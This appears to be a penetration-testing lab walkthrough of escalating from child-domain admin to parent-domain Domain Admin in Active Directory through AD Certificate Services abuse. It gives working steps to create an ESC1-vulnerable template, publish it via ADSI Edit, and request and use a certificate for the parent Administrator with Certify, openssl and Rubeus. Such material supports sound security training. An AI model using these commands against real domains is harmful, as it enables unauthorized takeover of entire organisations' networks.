





This example will cover a possible scenario of privilege escalation to Domain Admin from Child --> Parent via ADCS abuse.
Specifically the environment is like follows:
- **DC01.inlanefreight.ad (PARENT)**
- **DC02.dev.inlanefreight.ad (CHILD)**

## Preface
As named before we will use ADCS to privilege escalate and impersonate as Administrator@inlanefreight.ad (parent domain) via a ADCS implementation from the dev.inlanefreight.ad (child domain).
It is important to mention that for this example we have a Administrator@dev.inlanefreight.ad (child domain) and will use that to take over the parent as well.

## Why is this happening?
In a Trusted environment(Child / Parent) the PKI is replicated between the nodes on the forest(2 way if the trust is Bi-directional). This means even if we can't manipulate the CA on the Parent domain we can do it on the child instead(since we are domain admins there); therefore all the changes applied on the Child will be replicated to the Parent as well.

# Attack
## Attack Explanation
The involved steps are the following:
1. Add a new vulnerable `Certificate Template` inside the `Certificate Templates` container as a `pKICertificateTemplate` object.
2. Give the `Administrator` user of the child domain `Full Control` rights over the created Certificate Template.
3. Publish the created template to the CA server by modifying the `pKIEnrollmentService` object of the CA inside the `Enrollment Services` container.
4. After the Configuration NC is replicated back to the parent domain, request the certificate for `root\Administrator` from the child domain.

## Attack phase
Let's imagine that our user is not allowed to enroll a *User Template* from the child domain.
```powershell-session
PS C:\Tools> .\Certify.exe request /ca:inlanefreight.ad\INLANEFREIGHT-DC01-CA /domain:inlanefreight.ad /template:User /altname:INLANEFREIGHT\Administrator

[*] Action: Request a Certificates
[*] Current user context    : DEV\Administrator
[*] No subject name specified, using current context as subject.
[*] Template                : User
[*] Subject                 : CN=Administrator, CN=Users, DC=dev, DC=INLANEFREIGHT, DC=AD
[*] AltName                 : INLANEFREIGHT\Administrator
[*] Certificate Authority   : inlanefreight.ad\INLANEFREIGHT-DC01-CA
[!] CA Response             : The submission failed: Denied by Policy Module
[!] Last status             : 0x80094012. Message: The permissions on the certificate template do not allow the current user to enroll for this type of certificate. (Exception from HRESULT: 0x80094012)
[*] Request ID              : 8
[*] cert.pem         :
```
To omit the problem here we can clone the *User Template* on DC02 from the *MMC -> Template Manager*.

Take the freshly created template and allow a ESC1 that enables the attacker to enroll with whatever SAN name as pleased.

Next you need to allow Administators@Dev.inlanefreight.ad(child domain) to have full control over the template and nonetheless **Enroll**.

In order to be able to replicate back we need to open the **ADSI.msc** in "configuration mode" so we can edit the actual configuration under: **Services -> Public Key Services -> Enrollment Services** -> Choose the PKI object.
<font color="#c00000">(REMEMBER: to open the ADSIEdit as SYSTEM otherwise you won't be able to edit!)</font>

*EXTRA:* in case we don't have edit rights over the object we can add the "Full Control" permission over the **"Public Key Services"** OU to the **SYSTEM** user and allowing *Inheritance* to the subfolders.********
And now we must link the cloned template under **Certificate Templates**

This last step will allow the cloned and malicious certificate to be published on the CA and ready to be used.
```powershell-session
.\Certify.exe request /ca:inlanefreight.ad\INLANEFREIGHT-DC01-CA /domain:inlanefreight.ad /template:"Copy of User" /altname:INLANEFREIGHT\Administrator
```
Adjust the received format:
```shell-session
sed -i 's/\s\s\+/\n/g' cert.pem
```
Convert in a valid pfx that Windows can understand:
```shell-session
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
Upload back to the victim and use to inject into session to take the domain Child2Parent via ADCS.
```powershell-session
.\Rubeus.exe asktgt /domain:inlanefreight.ad /user:Administrator /certificate:cert.pfx /ptt
```